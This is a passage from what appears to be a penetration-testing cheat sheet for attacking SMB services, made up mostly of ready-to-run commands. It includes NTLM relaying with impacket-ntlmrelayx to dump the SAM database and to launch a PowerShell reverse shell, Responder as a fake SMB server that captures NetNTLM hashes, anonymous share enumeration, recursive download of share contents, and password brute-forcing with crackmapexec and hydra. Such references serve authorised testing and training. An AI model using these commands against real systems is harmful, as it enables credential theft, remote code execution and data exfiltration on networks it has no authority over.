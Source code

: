 | `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`                                            | Dump the SAM database using `impacket-ntlmrelayx`.                                                       |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`.                                    |
| `sudo responder -I ens33`                                                                                       | We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes. |

### SMB Manual testing

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R

crackmapexec smb <IP>
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
crackmapexec smb <IP> -u '' -p '' --shares

enum4linux -a <IP>

smbclient --no-pass -L //$IP
smbclient //<IP>/<SHARE>

# Download all files from a directory recursively
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"
```

### SMB Brute force

```
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

### Mount a SMB share

```

sudo mount -t cifs //<IP>/<SHARE> /mnt
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /mnt

# Mount as a guest
sudo mount -t cifs -o <permissions>,guest //<IP>/<SHARE> /mnt

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

### Mount any

```
# guestmount can mount any kind of disk file
sudo apt-get install libguestfs-tools
guestmount --add yourVirtualDisk.vhdx --inspector --ro /mnt/anydirectory

```
